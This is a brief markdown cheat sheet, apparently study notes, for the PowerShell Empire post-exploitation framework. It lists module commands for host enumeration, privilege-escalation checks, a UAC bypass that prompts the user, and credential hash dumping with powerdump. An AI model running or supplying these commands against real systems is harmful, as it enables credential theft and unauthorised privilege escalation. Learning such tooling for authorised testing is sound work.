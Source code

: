 ### Modules
* linux
    * empire client
        * look at the modules
        ```
        usemodule
        ```
        * most useful of modules
        ```
        usemodule powershell/situational_awareness/host/winenum
        ```
        * run module
        ```
        execute
        ```
        * examie the output of the job
        ```
        view TASK_NUM
        ```

### Looking for Privilege Escalation
* linux 
    * empire client
        * all checks for privilege escalation
        ```
        usemodule powershell/privesc/powerup/allchecks
        execute
        ```
        * attempt dump hashes 
        ```
        usemodule powershell/credentials/powerdump
        execute
        ```
        * check the task
        ```
        view TAKS_NUM
        ```

### UAC Bypass
* linux
    * empire client
        * move back agent
        ```
        back
        ```
        * pops up a UAC prompot
        ```
        usemodule powershell/privesc/ask
        set Listener http
        execute
        ```
        * interat agent2
        ```
        interact AGENT2_NAME
        ```
        * attempt dump hashes 
        ```
        usemodule powershell/credentials/powerdump
        execute
        ```
